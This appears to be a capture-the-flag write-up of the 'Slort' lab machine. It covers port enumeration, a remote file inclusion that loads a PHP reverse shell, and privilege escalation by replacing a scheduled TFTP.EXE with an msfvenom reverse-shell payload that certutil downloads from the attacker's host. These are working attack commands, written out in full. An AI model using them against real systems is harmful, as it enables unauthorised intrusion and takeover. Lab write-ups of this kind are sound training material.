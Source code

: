```yaml
---
layout: post
title: PG | Slort
subtitle: For this machine, enumeration is key.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 07:45 UTC
Nmap scan report for 192.168.182.53
Host is up (0.015s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-29T07:48:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.12 seconds
~~~

## FTP (TCP/21)

I begun enumeration by attempting an anonymous connection to FTP which failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ ftp anonymous@192.168.182.53 
Connected to 192.168.182.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
~~~

## SMB (TCP/139, 445)

I attempted a NULL SMB session which also failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ smbclient -N -L //192.168.182.53
session setup failed: NT_STATUS_ACCESS_DENIED
~~~

## MySQL (TCP/3306)

In the nmap scan it states our IP is unable to connect to the MariaDB server on the target, this is most likely because the server is hosted locally on port 127.0.0.1 and inaccessible over the internet

Oracle-TNS uses encryption and TLS to protect database communication over a network
~~~shell
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
~~~
## HTTP (TCP/4443)

I first ran a feroxbuster subdirectory scan and found 3 sub-directories: site, dashboard and img
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ feroxbuster -u http://192.168.182.53:4443 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o SlortDirs
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ cat SlortDirs         
301      GET        9l       30w      346c http://192.168.182.53:4443/site => http://192.168.182.53:4443/site/
302      GET        0l        0w        0c http://192.168.182.53:4443/ => http://192.168.182.53:4443/dashboard/
301      GET        9l       30w      345c http://192.168.182.53:4443/img => http://192.168.182.53:4443/img/
~~~
After browsing to http://192.168.182.53:4443/site I immediately noticed the URL could potentially contain a File Inclusion vulnerability

![Slort](/assets/img/SlortPG(1).png)

I started by testing for Local File Inclusion by attempting to pull files from the target machine and display them on the website using common Windows file paths from [here](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e) which succeeded!

![Slort](/assets/img/SlortPG(2).png)

I then tested if a Rmote File Inclusion (RFI) exists by starting a HTTP server on my attack machine then sending a HTTP GET request through the targets URL 'page' parameter
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

![Slort](/assets/img/SlortPG(3).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.182.53 - - [29/Oct/2023 08:34:28] "GET /test HTTP/1.0" 200 -
~~~
The RFI worked! We can therefore try to transfer a shell and get our initial foothold

# Exploit

I downloaded [this](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php) PHP Reverse shell and changed the IP, Port and directory parameters

![Slort](/assets/img/SlortPG(4).png)

![Slort](/assets/img/SlortPG(5).png)

I then downloaded the reverse shell to the host using the RFI
~~~shell
http://192.168.182.53:4443/site/index.php?page=http://192.168.45.185/shell.php
~~~
I started a listener on port 21 to avoid firewall restrictions
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~
I then ran the reverse shell payload
~~~shell
http://192.168.182.53:4443/site/index.php?page=shell.php
~~~
And I recieved my initial foothold!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50814
b374k shell : connected

Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>
~~~
# Privilege Escalation

I started enumeration for Privilege Escalation by running a winpeas scan and found an executable file 'TFTP.EXE' we have write permissions over

![Slort](/assets/img/SlortPG(6).png)

After navigating to the directory containing the executable, I found an info.txt file that states the file is run every 5 minutes, the Backup directory name indicates that it is most likely ran with SYSTEM (root) permissions

I created a reverse shell .exe using MSFVenom and named it 'TFTP.EXE'
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.185 LPORT=445 -f exe > TFTP.EXE 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
~~~
I started my netcat listener on port 445
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~
I then replaced the current TFTP.EXE file with my reverse shell TFTP.EXE
~~~shell
C:\Backup>move TFTP.EXE BACKUPTFTP.EXE
move TFTP.EXE BACKUPTFTP.EXE
        1 file(s) moved.

C:\Backup>certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
~~~
After a while I recieved a SYSTEM (root) shell on my listener!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50861
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator
~~~